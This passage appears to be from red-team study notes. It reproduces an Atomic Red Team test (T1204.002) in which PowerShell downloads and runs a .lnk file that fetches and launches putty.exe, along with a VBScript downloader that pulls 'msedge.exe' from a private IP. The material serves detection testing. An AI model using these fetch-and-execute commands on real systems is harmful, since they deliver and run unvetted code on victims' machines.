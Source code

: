 
#### lnk-Powershell-IWR-Start-Process

> [(1) X 上的 Ankit Anubhav：“As we start the era of #Lnk #Emotet This is a simple POC lnk while which invokes powershell to download clean putty from my github and executes it. If this launches putty and no detect/block happens for your EDR, do investigate deeper if this can change https://t.co/Si4PyIvCVL https://t.co/xZZYSoKoKV” / X (twitter.com)](https://twitter.com/ankit_anubhav/status/1518932941090410496)
>
> AtomicRedTeam - T1204.002 - Atomic Test #10 - LNK Payload Download

```powershell
Invoke-WebRequest -OutFile $env:Temp\test10.lnk "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/bin/test10.lnk"
$file1 = "$env:Temp\test10.lnk"
Start-Process $file1
Start-Sleep -s 10
taskkill /IM a.exe /F
```

![image-20231206225503915](http://cdn.ayusummer233.top/DailyNotes/202312062255290.png)

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iwr https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe -outfile $env:TEMP\a.exe;start-process $env:TEMP\a.exe
```

![image-20231206230226239](http://cdn.ayusummer233.top/DailyNotes/202312062302344.png)

![image-20231206230234085](http://cdn.ayusummer233.top/DailyNotes/202312062302145.png)

Cleanup:

```powershell
$file1 = "$env:Temp\test10.lnk"
$file2 = "$env:Temp\a.exe"
Remove-Item $file1 -ErrorAction Ignore
Remove-Item $file2 -ErrorAction Ignore
```

---

### VisualBasic

在 1998 年 Visual Basic 最终标准在 windows 上确定。下面的代码可以实现下载文件，虽然它的长度比 Powershell 长多了

```vbscript
Set args = Wscript.Arguments
Url = "http://100.1.1.131:8000/download/msedge.exe"
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile " C:\%homepath%\file", 2 '
end with
```
